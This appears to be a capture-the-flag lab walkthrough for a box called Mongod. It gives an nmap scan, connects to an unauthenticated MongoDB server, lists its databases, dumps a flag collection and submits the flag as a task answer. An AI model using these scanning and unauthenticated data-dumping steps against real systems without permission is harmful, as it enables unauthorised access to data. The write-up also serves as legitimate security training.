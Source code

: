 # Mongod

target: 10.129.149.18

attacker: 10.10.15.248

## Task 1: How many TCP ports are open on the machine?

`2`

```bash
└─$ nmap -p- -T4 10.129.149.18
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-22 00:18 EST
Warning: 10.129.149.18 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.149.18
Host is up (0.36s latency).
Not shown: 65462 closed tcp ports (conn-refused), 71 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
27017/tcp open  mongod

Nmap done: 1 IP address (1 host up) scanned in 6594.26 seconds

```

## Task 2: Which service is running on port 27017 of the remote host?

`mongod`

```bash
└─$ nmap -sV -p27017 10.129.149.18
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-22 02:16 EST
Nmap scan report for 10.129.149.18
Host is up (0.49s latency).

PORT      STATE SERVICE VERSION
27017/tcp open  mongodb MongoDB 3.6.8

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.13 seconds
```

## Task 3: What type of database is MongoDB? (Choose: SQL or NoSQL)

`NoSQL`

MongoDB is a source-available cross-platform document-oriented database program. Classified as a NoSQL database program, MongoDB uses JSON-like documents with optional schemas. MongoDB is developed by MongoDB Inc. and licensed under the Server Side Public License which is deemed non-free by several distributions. [Wikipedia](https://en.wikipedia.org/wiki/MongoDB)

## Task 4: What is the command name for the Mongo shell that is installed with the mongodb-clients package?

`mongo`

## Task 5: What is the command used for listing all the databases present on the MongoDB server? (No need to include a trailing ;)

`show dbs`

```bash
└─$ mongo 10.129.149.18
MongoDB shell version v6.0.1
connecting to: mongodb://10.129.149.18:27017/test?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("fd46edca-e9e6-485b-8711-712357d5a0cc") }
MongoDB server version: 3.6.8
WARNING: shell and server versions do not match
================
Warning: the "mongo" shell has been superseded by "mongosh",
which delivers improved usability and compatibility.The "mongo" shell has been deprecated and will be removed in
an upcoming release.
For installation instructions, see
https://docs.mongodb.com/mongodb-shell/install/
================
Welcome to the MongoDB shell.
For interactive help, type "help".
For more comprehensive documentation, see
        https://docs.mongodb.com/
Questions? Try the MongoDB Developer Community Forums
        https://community.mongodb.com
---
The server generated these startup warnings when booting: 
2023-02-22T04:52:22.994+0000 I STORAGE  [initandlisten] 
2023-02-22T04:52:22.994+0000 I STORAGE  [initandlisten] ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine
2023-02-22T04:52:22.994+0000 I STORAGE  [initandlisten] **          See http://dochub.mongodb.org/core/prodnotes-filesystem
2023-02-22T04:52:26.544+0000 I CONTROL  [initandlisten] 
2023-02-22T04:52:26.544+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
2023-02-22T04:52:26.544+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
2023-02-22T04:52:26.544+0000 I CONTROL  [initandlisten] 
---
help
> help
        db.help()                    help on db methods
        db.mycoll.help()             help on collection methods
        sh.help()                    sharding helpers
        rs.help()                    replica set helpers
        help admin                   administrative help
        help connect                 connecting to a db help
        help keys                    key shortcuts
        help misc                    misc things to know
        help mr                      mapreduce

        show dbs                     show database names
        show collections             show collections in current database
        show users                   show users in current database
        show profile                 show most recent system.profile entries with time >= 1ms
        show logs                    show the accessible logger names
        show log [name]              prints out the last segment of log in memory, 'global' is default
        use <db_name>                set current database
        db.mycoll.find()             list objects in collection mycoll
        db.mycoll.find( { a : 1 } )  list objects in mycoll where a == 1
        it                           result of the last line evaluated; use to further iterate
        DBQuery.shellBatchSize = x   set default number of items to display on shell
        exit                         quit the mongo shell
> show dbs
admin                  0.000GB
config                 0.000GB
local                  0.000GB
sensitive_information  0.000GB
users                  0.000GB
> 

```

## Task 6: What is the command used for listing out the collections in a database? (No need to include a trailing ;)

`show collections`

## Task 7: What is the command used for dumping the content of all the documents within the collection named flag in a format that is easy to read?

`db.flag.find().pretty()`

```bash
> db.flag.find().pretty()
{
        "_id" : ObjectId("630e3dbcb82540ebbd1748c5"),
        "flag" : "1b6e6fb359e7c40241b6d431427ba6ea"
}

```

## Task 8: Submit root flag

`1b6e6fb359e7c40241b6d431427ba6ea`
